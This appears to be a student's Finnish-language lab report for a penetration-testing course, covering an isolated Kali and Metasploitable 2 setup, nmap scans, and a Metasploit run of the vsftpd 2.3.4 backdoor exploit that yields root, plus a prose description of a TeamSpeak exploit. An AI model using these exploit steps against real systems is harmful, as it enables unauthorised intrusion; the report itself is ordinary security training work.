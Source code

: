 ### h3 Lab kid

Irroita koneet Internetistä harjoittelun ajaksi. Ole huolellinen.

#### x) Lue/katso ja tiivistä. (Tässä x-alakohdassa ei tarvitse tehdä testejä tietokoneella, vain lukeminen tai kuunteleminen ja tiivistelmä riittää. Tiivistämiseen riittää muutama ranskalainen viiva.)

*€ Velu 2022: Mastering Kali Linux for Advanced Penetration Testing 4ed: Chapter 10 - Exploitation: kappaleet "The Metasploit Framework", "The exploitation of targets using Metasploit" ja "Using public exploits". Eli ei enää kappaletta "Developing a Windows exploit" ja siitä eteenpäin.*

- Metasploit Framework (MSF) on avoimen lähdekoodin työkalu, joka on suunniteltu auttamaan pen testauksessa.
- Sen modulaarin rakenne tekee exploittien käytöstä, sekä monimutkaisempien hyökkäyksien toteutuksesta yksinkertaisempaa.
- MSF:n moduulit sisältävät puhtaiden exploittien lisäksi myös muita työkaluja, jotka keskittyvät enemmän Cyber Kill Chainin Installation ja C & C vaiheisiin, ja myöskin tiedusteluun.
- MSF-konsolilla voidaan käyttää mm. nmapia, etsiä exploitteja sen omasta tietokannasta, ja tietysti käyttää kyseisiä expoloitteja.
- Uusia julkisia expoloitteja voidaan myös etsiä ja lisätä MFS:n tietokantaan.

*Vapaavalintainen läpikävely 0xdf tai ippsec (Kannattaa valita helppo; esim "Base Points: Easy")*

- 

*Nyrkkeilysäkki ei kuulu. Etsi hakukoneesta kotitehtäväraportti, jossa Kali ja Metasploitable on asennettu samaan verkkooon VirtualBoxiin; sekä testaamalla osoitettu, että koneet on saatu irti Internetistä. Tällaiset tehtävät ovat olleet jonain vuonna esimerkiksi nimillä "Nyrkkeilysäkki" ja "Ei kuulu".*

<p>Googlesta löytyi Sami Kulonpään ratkaisu Nyrkkeilysäkki -tehtävään syksyltä 2021 (https://kulonpaa.com/?p=87), jossa siis VirtualBoxin asetuksissa Metasploitable-koneelta otetaan tuosta default NAT-verkkoadapterista 'piuha irti', jolloin sillä ei enää ole pääsyä interwebsiin. Tämän jälkeen otetaan käyttöön toinen adapteri, joka on 'Host-only adapter', jolla siis voidaan simuloida lähiverkkoa, joista koneella ei ole pääsyä internettiin, mutta ne voivat viestiä keskenään. Kun sama temppu tehdään tuolle Kali koneelle tuloksena on juurikin edellä mainittu tilanne, ja probleema on solved. </p>

#### a) Asenna Kali virtuaalikoneeseen

<p>Kerkesin tämän tehdä jo kurssin alussa, ja prosessi ei nyt muistaakseni ollut niin ihmeellinen, että sitä olisi tarpeen käydä uudestaan läpi askel askeleelta. Alkajaisiksi latasin tuon uusimman version Kalista Virtualboxille (https://www.kali.org/get-kali/#kali-virtual-machines), jonka jälkeen purin ladatun zipin, ja klikkasin kansiosta löytyvää Kali Linux Virtualbox Machine Definition -tiedostoa, minkä jälkeen Kali Linux ilmestyi VirtualBoxin näkymään.</p>

<p>Tästä sitten normaali käynnistys ja varmaan perus enterin hakkaamista, kunnes päästiin kirjautumisruutuun eli tarvittiin salasana ja käyttäjänimi, jotka jouduin googlettamaan, ja ne olivat niinkin ovelat kuin kali & kali (nämä olisivat olleet myös näkyvissä Machine Descriptionissa VirtualBoxissa). Muistaakseni perus update & upgraden lisäksi ainakin näppiksen layouttia piti vaihtaa, että käytöstä tuli yhtään mitään, ja taisin VirtualBoxin asetuksista myös käydä laittamassa lisää RAM:ia ja Video Memoryä.</p>



#### b) Asenna Metasploitable 2 virtuaalikoneeseen

<p>Tässäkään ei varsinaisesti ollut mitään ihmeellistä, eli aloitin lataamalla tuon Metasploitable 2 VM:n(https://sourceforge.net/projects/metasploitable/), ja purkamalla sen. Tämän jälkeen VirtualBoxista New machine -> Type: Linux, Version: Other Linux (64-bit) -> RAM:it + CPU:t -> Virtual Hard Diskiin valitetaan käytettävän olemassa olevaa tiedostoa, johon siis laitetaan tuolta aiemmin puretusta kansiosta tuo Metasploitable, jonka jälkeen next ja finish, ja kone voidaan käynnistää.</p>

#### c) Tee koneille virtuaaliverkko, jossa:

**Kali saa yhteyden Internettiin, mutta sen voi laittaa pois päältä**

- Tuota aiempaa ohjetta mukaillen otin siis tuon Host-only adapterin käyttöön Kalille, ja tuosta defaultti NAT-adapterista piuhan irti, jolloin koneella ei siis pääsyä internettiin, mutta yhteys Metasploitable koneeseen onnistuu. Kun halutaan päästä takaisin internettiin tehdään päinvastoin, eli irroitetaan VirtualBoxin Network -asetuksista piuha Host-only -adapterista, ja kytketään piuha kiinni NAT-asetuksiin, jolloin internettiin yhdistäminen onnistuu.

  ![interwebz](https://i.imgur.com/zUbJfmy.png)

**Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty intenetistä, mutta ne saavat yhteyden toisiinsa**

- Tässä siis laitetaan molemmissa koneissa tuo Host-only adapteri tulille, ja irroitetaan NAT-adapteri, jolloin ne ovat samassa verkossa, ja ilman pääsyä interwebziin. Kuten kuvista näkyy pingit eivät mene läpi muualle, kuin noihin 192.168 alkuisiin osoitteisiin, jotka siis kuuluvat yksityisiin ip-avaruuksiin (10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16) joita ei reititetä internettiin.
  
  ![hostadapter](https://i.imgur.com/RasDJxy.png)
  
  ![hostonly](https://i.imgur.com/yJEh8jK.png)
 

**Osoita eri komennoilla, että Internet-yhteys katkeaa: 'ping 1.1.1.1', 'ping www.google.com', 'curl www.google.com'**

![curlping](https://i.imgur.com/VvnRJkL.png)

#### d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - Metasploitablen weppipalvelimen etusivulla lukee Metasploitable. Katso, ettei skannauspaketteja vuoda Internetiin - kannattaa irrottaa koneet netistä skannatessa.

<p>Alkuun täytyy käynnistää tuo Metasploit, mikä tapahtuu ensiksi käynnistämällä sen tarvitsema tietokanta: postgresql, jonka jälkeen käynnistetään tuoa msfdb, ja käynnistetään msf-konsoli, josta porttiskannauskomento voidaan ajaa. Suorittamalla tuo -sn, eli ping sweep -skannaus tässä meidän hostiverkossa (192.168.56.0/24) löydetään sieltä tosiaan tuo Metasploitable osoitteesta, joka loppuu .103, joka voidaan siis vielä testata selaimella. Noista kahdesta muusta osoitteesta ei oikeastaan tarvitse välittää, sillä tuo .1 on tietty DGW, ja tuo .100 on VirtualBoxin tähän verkkoon luoma DHCP (löytyy VB:n Network Managerista, Host-only Networks kohdan alta). </p>

![msfdb](https://i.imgur.com/v8b6Upq.png)

![metass](https://i.imgur.com/K7M9b2p.png)


#### e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A -p0-). Analysoi tulos. Kerro myös ammatillinen mielipiteesi (uusi, vanha, tavallinen, erikoinen), jos jokin herättää ajatuksia.

<p>Avoimia portteja, ja niissä olevia palveluita löytyi melkoinen määrä, mikä on melko epätavallista, kun otetaan huomioon että skannasimme vain yhden IP:n. Kun palveluita ja niiden versioita hieman tutkii, niin huomataan, että useat niistä ovat vanhoja ja haavoittuvia versioita esim. OpenSSH 4.7p1 & Apache 2.2.8 ovat tällaisiä.</p> 

<p>Myös jo ihan pelkistä palveluista löytyy mielenkiintoa herättäviä tapauksia esim. porteissa 512, 513, 514 on auki palvelut nimillä exec, login, ja shell, mikä kuulostaa kohtalaisen lupaavalta. Tai portissa 1542 näkyy olevan bindhsell, jonka nmap kertoo suoraan olevan 'Metasploitable root shell'. Sitten tuolta löytyy myös noita sertejä, jotka on salattu 1024 bittisellä sha1WithRSAEncryption algoritmillä, mikä ei nyt nopean googlen perusteella ole mikään turvallisin vaihtoehto, ja myöskin nykyään noiden pituudeksi taidetaan suositellaan minimissään 2048 bittiä. </p>

![nmapA](https://i.imgur.com/9MuTZH7.png)

#### f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)

- Aloitetaan tekemälllä versioskannaus (-sV) nmapilla tuolle ftp portille 21, josta löydetään vsftpd pavelelu ja sen versio 2.3.4.
  
  ![sV](https://i.imgur.com/i9d6cI3.png)

- Tämän jälkeen etsitään MSF:n tietokannasta vsftpd:n haavoittuvuuksia, ja kappas sieltähän löytyy juurikin meidän versiollemme 'Backdoor Command Execution' exploitti.

![searchh](https://i.imgur.com/JrmxKsr.png)

- Seuraavaksi otetaan tuo löydetty exploitti käyttöön, asetetaan kohdekohdeen ip rhostiksi, ja oma ip chostiksi. Tässä ei nyt lisätty mitään payloadia, eli mitään kohteessa ajettavaa koodia (esim. etäkäyttötyökalua), vaan käytetään default terminaalia, ja kun ollaan asetukset on kohdillaan voidaan painaa exploit.

```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.56.103
rhosts => 192.168.56.103
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set chost 192.168.56.101
chost => 192.168.56.101
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

 ```
- Ei niin yllättäen hyökkäys oli onnistunut, ja olemme roottina kohteessa sisällä.

  ![asdas](https://i.imgur.com/eewpmch.png)
  

#### g) Parempi sessio. Tee vsftpd-hyökkäyksestä saadusta sessiosta parempi. (Voit esimerkiksi päivittää sen meterpreter-sessioksi, laittaa tty:n toimimaan tai tehdä uuden käyttäjän ja ottaa yhteyden jollain tavallisella protokollalla)

- ?


#### h) Etsi, tutki ja kuvaile jokin hyökkäys ExploitDB:sta. (Tässä harjoitustehtävässä pitää hakea ja kuvailla hyökkäys, itse hyökkääminen jää vapaaehtoiseksi lisätehtäväksi)

- Huvikseni syöttelin tuonne hakukenttään ohjelmia, joita olen itse käyttänyt, ja TeamSpeak hakusanalla löytyi suht mielenkiintoinen hyökkäys (https://www.exploit-db.com/exploits/38513). Eli pahimnillaan kyseisellä hyökkäyksellä päästään ajamaan koodia kohdekoneella.
- Hyökkäyksen toimintaperiaate on itseasiassa melko yksinkertainen, ja se perustuu TeamSpeak-kanavan kuvauksen vaihtamiseen, jossa img-tagien väliin voidaan syöttää käytännössä minkälaisia tiedostoja tahansa, sillä TeamSpeak ei tarkasta tiedostotyyppejä, eikä tiedostoja uudelleen nimetä, mikä mahdolllistaa haitallisen ohjelmatiedoston muodostamisen.
- Lisäksi voidaan liikkua ja tallentaa tiedostojärjestelmän sisällä samoilla oikeuksilla mitä TeamSpeakilla on, mikä ei ainakaan Windowsilla välttämättä ole kovinkaan hyvä juttu.
- TeamSpeak siis oletuksena koittaa tarkastaa, että kyseessä on oikea kuvatiedosto tarkastamalla tiedoston 'headeristä' 'content typen' annetusta urlista, mutta tämä on mahdollista ohittaa hostaamalla kuva omalla web-palvelimella, jossa on suht simppeli php-skripti, jolla tämä ohitetaan.

#### i) Etsi, tutki ja kuvaile hyökkäys 'searchsploit' -komennolla. Muista päivittää. (Tässä harjoitustehtävässä pitää hakea ja kuvailla hyökkäys, itse hyökkääminen jää vapaaehtoiseksi lisätehtäväksi. Valitse eri hyökkäys kuin edellisessä kohdassa.)


#### j) Kokeile vapaavalintaista haavoittuvuusskanneria johonkin Metasploitablen palveluun. (Esim. nikto, wpscan, openvas, nessus, nucleus tai joku muu)


#### k) Kokeile jotain itsellesi uutta työkalua, joka mainittiin x-kohdan läpikävelyohjeessa.
